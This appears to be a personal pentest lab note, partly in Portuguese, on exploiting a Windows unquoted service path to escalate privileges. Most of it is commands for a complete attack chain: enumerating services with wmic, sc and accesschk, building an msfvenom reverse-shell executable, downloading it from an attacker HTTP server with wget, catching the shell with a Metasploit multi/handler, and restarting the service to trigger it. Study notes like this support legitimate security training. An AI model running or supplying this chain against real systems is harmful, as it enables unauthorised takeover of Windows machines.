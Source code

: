 ##POC 
#Unquoted_Service_Path/poc

However, if the path is not written between quotes and if any folder name in the path has a space in its name, things may get complicated. Windows will append ".exe" and start looking for an executable, starting with the shortest possible path. In our example, this would be C:\Program.exe. If program.exe is not available, the second attempt will be to run topservice.exe under C:\Program Files\. If this also fails, another attempt will be made for C:\Program Files\topservice folder\subservice.exe. This process repeats until the executable is found.


**inding Unquoted Service Path Vulnerabilities**

Tools like winPEAS and PowerUp.ps1 will usually detect unquoted service paths. But we will need to make sure other requirements to exploit the vulnerability are filled. These are;

1.  Being able to write to a folder on the path
2.  Being able to restart the service

If either of these conditions is not met, successful exploitation may not be possible. 

  The command below will list services running on the target system. The result will also print out other information, such as the display name and path. 
## List services running on the target system
``` 

wmic service get name,displayname,pathname,startmode

```

 `C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`
 
  Going over the output of this command on the target machine, you will notice that the "unquotedsvc" service has a path that **is not written between quotes.**
  
  You can further check the binary path of this service using the command below: 

```
sc qc unquotedsvc

```

## Check privileges on folders 
Once we have confirmed that the binary path is unquoted, we will need to check our privileges on folders in the path. Our goal is to find a folder that is writable by our current user. We can use accesschk.exe with the command below to check for our privileges.

```
.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"

```

exemplo:
```
.\accesschk64.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"

```

output:
``` run the previous command

Accesschk v6.10 - Reports effective permissions for securable objects
Copyright (C) 2006-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\Unquoted Path Service
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrator

```

[github](https://github.com/ankh2054/windows-pentest)

We now have found a folder we can write to. As this folder is also in the service's binary path, we know the service **will try to run an executable with the name of the first word of the folder name**.

## Create reverse shell windows
#msfvenom/windows/reverse_shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[KALI or AttackBox IP Address] LPORT=[The Port to which the reverse shell will connect] -f exe > executable_name.exe

```


```
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.9.**  LPORT=4545 -f exe > common.exe
 
```

## Send payload to windows machine:
#/windows/send/payload

powershell:
```
C:\Program Files\Unquoted Path Service\> wget -O common.exe http://10.9.9.67:4545/common.exe
```

kali:
```
python3 -m http.server 4545

```

## Set revershell no msfconsole:
#msfconsole/reverse_shell/multi/handler

```
search multi/handler

set payload windows/x64/shell_reverse_tcp

run

```

## start/Stop services:
```
sc stop unquotedsvc

```

```
sc start unquotedsvc

```

## search Path of file in windows
**Go to floder / and run this command to serch for the file flagUSP.txt:


```
dir flagUSP.txt /s

```
[[Windows Privesc#^3f1104]]
output:
`C:\Users\Cora\Documents` ^1d274a